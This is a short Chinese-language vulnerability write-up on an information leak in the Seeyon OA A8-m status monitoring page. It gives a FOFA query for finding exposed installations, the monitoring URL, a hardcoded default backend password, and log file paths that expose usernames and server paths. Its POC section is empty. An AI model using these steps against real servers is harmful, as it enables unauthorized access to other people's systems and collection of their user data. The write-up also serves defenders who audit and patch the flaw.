


# 致远OA A8 状态监控页面信息泄露

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响

> [!NOTE]
>
> 致远OA A8-m

## FOFA

> [!NOTE]
>
> title="A8-m"

## 漏洞复现

访问监控页面

```
http://xxx.xxx.xxx.xx/seeyon/management/status.jsp
```


后台密码为 **WLCCYBD@SEEYON**

登录后通过如下url获得一些敏感信息

```
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```




## 漏洞利用POC

> [!NOTE]
>
> 多个目标



